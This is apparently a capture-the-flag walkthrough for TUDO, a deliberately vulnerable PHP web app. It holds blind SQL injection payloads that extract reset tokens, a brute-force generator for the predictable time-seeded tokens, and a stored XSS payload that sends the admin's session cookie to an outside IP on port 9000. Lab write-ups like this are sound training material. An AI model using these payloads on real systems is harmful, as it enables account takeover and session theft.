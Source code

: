 ## TUDO (Vulnerable PHP Web-App)

https://github.com/bmdyy/tudo

### First Access

To get first access on this challenge, you have two options:
* Explore SQL injection on forgotUsername.php to get password resetToken;
* Create a list with every possible value for this token since you have the seed on utils.php.

<br>

#### SQL Injection
The SQL injection is automated on SQLinjection.py. First you discover user UID with this payload:
 ```
admin' and (select uid from users where username='user1')='%s
```

You can discover that the uid is necessarily based on this line on **forgotpassword.php**:
```
$ret = pg_prepare($db, "createtoken_query", "insert into tokens (uid, token) values ($1, $2)");
```

Now you can extract resetToken with:
```
admin' and (select ascii(substr(token,%s,1)) from tokens where uid=%s limit 1)='%s
```

For some reason you have to compare the character in ascii decimal value.

<br>

#### Predicting Token
The original function to generate token is:
```php
function generateToken() {
        srand(round(microtime(true) * 1000));
        $chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_';
        $ret = '';
        for ($i = 0; $i < 32; $i++) {
            $ret .= $chars[rand(0,strlen($chars)-1)];
        }
        return $ret;
    }
```

We can create a php file to generate a list for the possible tokens:
```php
<?php

  function generateToken($seed){
      ...
}

	$t_start = $argv[1];
	$t_end   = $argv[2];

	for ($i = $t_start; $i < $t_end; $i++) {
		print_r(generateToken($i) . "\n");
	}
?>
```

This will receive two values from the script that are related to timestamps, since the main function uses microtime.

Now we can create the script **generateTokens.py** to get this possible values and interact with **resetpassword.php** until it finds the correct one.

<br>

### Privilege Escalation
The privilege escalation is based on a XSS on profile description. This will be reflected in the admin page and we may steal your session cookie.

This is the payload and the process is automated on **stealCookie.pyp**:
```
<script>document.write('<img src=http://192.168.159.131:9000/'+document.cookie+' />');</script>
```

On index.php, you can see the difference between on content being sanitize and this vulnerable one not.
```php
# Vulnerable
echo '<td>'.$row[3].'</td>';

# Sanitized
echo '<td><i>'.htmlentities($row[1]).'</i></td>';
```

